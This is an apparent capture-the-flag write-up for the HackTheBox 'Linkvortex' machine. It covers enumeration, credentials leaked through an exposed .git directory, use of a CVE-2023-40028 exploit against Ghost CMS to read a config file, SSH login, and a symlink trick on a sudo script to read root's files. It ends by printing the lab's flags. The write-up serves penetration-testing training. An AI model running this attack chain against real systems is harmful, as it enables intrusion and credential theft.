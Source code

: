 # 🎯 Linkvortex - HTB Machine
**Category:** Miscellaneous  
**Difficulty:** Easy  
**Platform:** HackTheBox  
**Release Date:** 2023  
**Target IP:** 10.10.11.47

## 📝 Challenge Description
A Ghost CMS instance with potential security misconfigurations and vulnerabilities that could lead to unauthorised access.

## 🔍 Reconnaissance

### Port Scanning
```bash
# Full TCP port scan
nmap -sC -sV -T4 -p- 10.10.11.47
```

**Results:**
| Port | State | Service | Version |
|------|--------|---------|----------|
| 22/tcp | Open | SSH | OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 |
| 80/tcp | Open | HTTP | Apache httpd |

**Additional Details:**
- HTTP server redirects to `http://linkvortex.htb/`
- SSH host keys:
  - ECDSA: `256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb`
  - ED25519: `256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13`

### Web Enumeration

1. **Directory Enumeration (Main Domain)**
```bash
gobuster dir -u http://linkvortex.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

2. **Subdomain Enumeration**
```bash
ffuf -u http://linkvortex.htb/ -w /usr/share/wordlists/Custom/DNS/n0kovo_subdomains_huge.txt \
     -H "Host:FUZZ.linkvortex.htb" -mc 200 -fs 178 -o dnsresults -of md -v
```

**Discovered Subdomains:**
| Subdomain | Status | Content Length | Type |
|-----------|--------|----------------|------|
| dev | 200 | 2538 | text/html |

3. **Git Repository Enumeration (`dev.linkvortex.htb`)**
```bash
gobuster dir -u http://dev.linkvortex.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

**Exposed Git Files:**
| Path | Status | Size |
|------|--------|------|
| /.git/ | 301 | 239 |
| /.git/HEAD | 200 | 41 |
| /.git/config | 200 | 201 |
| /.git/logs/ | 200 | 868 |
| /.git/index | 200 | 707577 |

### Source Code Analysis

1. **Git Repository Investigation:**
```bash
git status
```
**Output:**
```
Not currently on any branch.
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        new file:   Dockerfile.ghost
        modified:   ghost/core/test/regression/api/admin/authentication.test.js
```

```bash
git diff --cached
```
**Output:**
```diff
diff --git a/Dockerfile.ghost b/Dockerfile.ghost
new file mode 100644
index 0000000..50864e0
--- /dev/null
+++ b/Dockerfile.ghost
@@ -0,0 +1,16 @@
+FROM ghost:5.58.0
+
+# Copy the config
+COPY config.production.json /var/lib/ghost/config.production.json
+
+# Prevent installing packages
+RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb
+
+# Wait for the db to be ready first
+COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
+COPY entry.sh /entry.sh
+RUN chmod +x /var/lib/ghost/wait-for-it.sh
+RUN chmod +x /entry.sh
+
+ENTRYPOINT ["/entry.sh"]
+CMD ["node", "current/index.js"]

diff --git a/ghost/core/test/regression/api/admin/authentication.test.js b/ghost/core/test/regression/api/admin/authentication.test.js
index 2735588..e654b0e 100644
--- a/ghost/core/test/regression/api/admin/authentication.test.js
+++ b/ghost/core/test/regression/api/admin/authentication.test.js
@@ -53,7 +53,7 @@ describe('Authentication API', function () {
 
         it('complete setup', async function () {
             const email = 'test@example.com';
-            const password = 'thisissupersafe';
+            const password = 'OctopiFociPilfer45';
 
             const requestMock = nock('https://api.github.com')
                 .get('/repos/tryghost/dawn/zipball')
```

2. **Critical Findings:**
- Ghost CMS version 5.58.0 identified in Dockerfile
- Exposed credentials in test file:
  - Email: `test@example.com`
  - Password: `OctopiFociPilfer45`
- Configuration files referenced in Dockerfile that might contain sensitive data

3. **Login Portal Analysis:**
- Ghost CMS login portal vulnerable to username enumeration
- **Critical Finding:** Discovered valid admin email `admin@linkvortex.htb`
- This email combined with previously discovered credentials enabled initial access

## 🔓 Initial Access

### Ghost CMS Exploitation
- **Vulnerability:** CVE-2023-40028 (Ghost CMS v5.58)
- **Exploit Tool:**
  ```bash
  ./cve-2023-40028 -u <username> -p <password> -h <host_url>
  ```

### Configuration File Extraction
- **Target File:** `/var/lib/ghost/config.production.json`
- **Retrieved Configuration:**
```json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "SMTP",
    "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
      }
    }
  },
  "spam": {
    "user_login": {
      "minWait": 1,
      "maxWait": 604800000,
      "freeRetries": 5000
    }
  }
}
```

### SSH Access
- Successfully authenticated as user `bob` using discovered credentials
- User flag obtained

## 🔐 Privilege Escalation

### Sudo Permissions Analysis
```bash
sudo -l
```
**Output:**
```
User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

### Root Flag Extraction
1. **Symlink Creation:**
```bash
ln -s /root/root.txt /home/bob/test.txt
ln -s /home/bob/test.txt /home/bob/test.png
```

2. **Exploit Execution:**
```bash
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/test.png
```

## 🏁 Flags
- **User Flag:** `e9e77193e25870661af3813cab24a91c`
- **Root Flag:** `cdf8ecab5aace4312e2b04673c4fe73d`

## 💡 Key Takeaways
1. Always check for exposed Git repositories and analyze their contents
2. Version-specific vulnerabilities in CMS systems can be critical (Ghost CMS 5.58)
3. Configuration files often contain valuable credentials
4. Symlink attacks can be effective for privilege escalation when combined with sudo permissions

## 🛠️ Tools Used
- nmap
- gobuster
- ffuf
- git
- CVE-2023-40028 exploit
- Basic Linux commands (ln, sudo)

## 📚 References
- [Ghost CMS CVE-2023-40028](https://nvd.nist.gov/vuln/detail/CVE-2023-40028)
- [Ghost CMS Documentation](https://ghost.org/docs/)

